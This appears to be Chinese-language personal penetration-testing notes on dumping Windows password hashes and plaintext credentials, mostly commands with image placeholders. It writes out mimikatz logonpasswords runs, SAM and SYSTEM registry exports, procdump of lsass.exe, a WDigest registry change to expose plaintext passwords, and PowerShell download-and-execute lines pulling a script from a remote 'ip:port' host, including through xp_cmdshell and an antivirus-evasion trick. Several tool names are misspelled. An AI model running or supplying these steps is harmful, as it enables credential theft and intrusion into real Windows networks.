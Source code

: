 # 获取hash

![image-20210830093140295](内网渗透/image-20210830093140295.png)

![image-20210830094434631](内网渗透/image-20210830094434631.png)

![image-20210830095639936](内网渗透/image-20210830095639936.png)

![image-20210830095715958](内网渗透/image-20210830095715958.png)

>
>
>Windows密码算法:LM Hahs(从windows server 2008开始禁用)和NTLM Hash (从windows vista以及windows server 2003之后使用此加密算法)
>
>要获取Windows中的散列值和明文密码，必须将权限提升至system权限。本地用户名、散列值和其他安全验证信息存在于SAM文件中（此文件不可复制）。lsass.exe进程用于实现Windows的安全策略。可使用工具将散列值和明文密码从sam文件和lsass.exe进程中获取出来。

### pwdump

![image-20210830204443989](内网渗透/image-20210830204443989.png)

### quarkpwdump

>quarkpwdump使用
>
>quarkpwdump.exe -dhl

![image-20210830114413038](内网渗透/image-20210830114413038.png)

![image-20210830114306799](内网渗透/image-20210830114306799.png)

### mimikatz

```sh

mimikatz的用法
创建交互式shell环境
privilege::debug
sekurlsa::logonpasswords

minikatz.exe privilege::debug sekurlsa::logonpasswords exit
```

![image-20210830144308558](内网渗透/image-20210830144308558.png)

![image-20210830113951087](内网渗透/image-20210830144946162.png)

```sh
reg save hklm\system system.bak #导出注册表文件
reg save hklm\sam sam.bak 

	
minikatz:
	lasdump::sam /sam:C:\users\xxx\sam.bak \system:C:\users\xxx\system.bak
```

![image-20210830152302915](内网渗透/image-20210830152302915.png)

<img src="内网渗透/image-20210830195026030.png" alt="image-20210830195026030" style="zoom: 67%;" />

<img src="内网渗透/image-20210830195933781.png" alt="image-20210830195933781" style="zoom:67%;" />

```sh
prodump.exe -accepteula -ma lsass.exe lsass.dmp #导出lsass.dmp文件
或使用任务管理器 lsass.exe进程  右击create dump file导出到文件

-----
mimikatz.exe
	sekurlsa::minidump lsass.dmp  #加载lsass.dmp
	sekurlsa::logonPasswords full   #导出散列值
```

![image-20210830212703018](内网渗透/image-20210830212703018.png)

### 使用Powershell对散列值进行dump操作



![image-20210830150053754](内网渗透/image-20210830150053754.png)

![image-20210830150129282](内网渗透/image-20210830150129282.png)

```sh
powershell IEX (New-Object Net.WebClient).DownloadString('http://ip:port/xxx.ps1');xxx > c:\www\password.log 


exec ("xp_cmdshell''where powershell''")
exec ("xp_cmdshell'copy c:\xxx\powershell.exe test.txt'")
exec ("xp_cmdshell''powershell IEX (New-Object Net.WebClient).DownloadString('http://ip:port/xxx.ps1');xxx > c:\www\password.log''")



----------------------------绕杀软
echo "xx.txt powershell IEX (New-Object Net.WebClient).DownloadString('http://ip:port/xxx.ps1');xxx > c:\www\password.log" > tmp.bat
where powershell
copy c:\windows\system32\windowspowershell\v1.0\powershell.exe xx.txt

tmp.bat执行输出到c:\www\password.log中
```

![image-20210830235012255](内网渗透/image-20210830235012255.png)



### 修改注册表获取lsass.exe进程中的密码

lsass.exe 存储明文密码

minikatz抓取失败

需要使用prodump 使用

minikatx.exe 'lesse.dmp'

```sh 修改注册表
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
#2016server进行修改命令
修改后 shutdonw /r /t 0
#关机重启
上传procdump脚本
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
最终下载生成的lsass.dmp文件
使用mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
进行获取明文密码


```

![image-20210830235827370](内网渗透/image-20210830235827370.png)

![image-20210830235841592](内网渗透/image-20210830235841592.png)

![image-20210830235852930](内网渗透/image-20210830235852930.png)

![image-20210830235901939](内网渗透/image-20210830235901939.png)

![image-20210830235907518](内网渗透/image-20210830235907518.png)

![image-20210830235912701](内网渗透/image-20210830235912701.png)











![image-20210830103750284](内网渗透/image-20210830103750284.png)

![image-20210830104101957](内网渗透/image-20210830104101957.png)

![image-20210830104118377](内网渗透/image-20210830104118377.png)

![image-20210830104420373](内网渗透/image-20210830104420373.png)

![image-20210830104449681](内网渗透/image-20210830104449681.png)

